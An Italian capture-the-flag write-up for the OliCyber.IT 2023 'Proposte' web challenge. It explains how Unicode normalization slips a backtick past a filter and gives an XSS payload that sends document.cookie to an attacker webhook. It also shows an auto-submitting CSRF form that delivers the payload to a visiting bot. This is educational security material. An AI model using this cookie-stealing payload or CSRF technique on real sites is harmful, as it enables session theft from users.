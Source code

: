 # OliCyber.IT 2023 - Competizione nazionale

## [web] Proposte (5 risoluzioni)

La challenge consiste in un sito web che permette di proporre delle nuove challenge:

- Categoria stego, vulnerabile a XSS
- Tutte le altre proposte, che permette di far visitare una pagina al bot

### Soluzione

L'applicazione web inserisce il contenuto del parametro POST "text" all'interno della pagina HTML per generare l'animazione del testo.

Il payload fornito viene inserito nel template all'interno di un tag script in questo modo.

```html
<script>
  var app = document.getElementById("text");
  var typewriter = new Typewriter(app, {});
  typewriter.typeString(`<%= desc.normalize() %>`);
  typewriter.start();
</script>
```

Dopo aver sostituito alcuni caratteri in questo modo:

```js
desc = desc.replaceAll("$", "€");
desc = desc.replaceAll("`", "'");
desc = desc.replaceAll("\\", "/");
```

Sfruttando il fatto che la descrizione viene normalizzata (normalizzazione NFC) prima di essere inserita all'interno della pagina, si può eludere la sostituzione del carattere "`".

Infatti, il carattere speciale "`" (che corrisponde a "%e1%bf%af" in URL-encoding) viene normalizzato al carattere vietato "`".
Per maggiorni informazioni sulla normaizzazione dei caratteri si può consultare la tabella al link https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html.

Potendo eludere questo controllo è possibile creare un payload per ottenere XSS e esfiltrare il cookie della vittima simile a:

```
`); fetch(`https://webhook.site/YOUR-WEBHOOK/`+document.cookie) ;//
```

Considerando che il parametro vulnerabile è di tipo POST, è necessario effettuare una CSRF per eseguire l'XSS sulla vittima, la pagina da far visitare alla vittima può essere simile alla seguente:

```
<form action="http://proposte.challs.olicyber.it/stego" method="post">
  <input name="text" value="`); fetch(`https://webhook.site/YOUR-WEBHOOK/`+document.cookie) ;//">
</form>

<script> document.getElementsByTagName('form')[0].submit() </script>
```

Facendo visitare questa pagina al bot (attraverso la funzionalità "Tutte le altre richieste") la flag contenuta nei cookie verrà inviata al webhook dell'attaccante.

### Exploit

```python
from pwn import *

# Soluzione qua
```
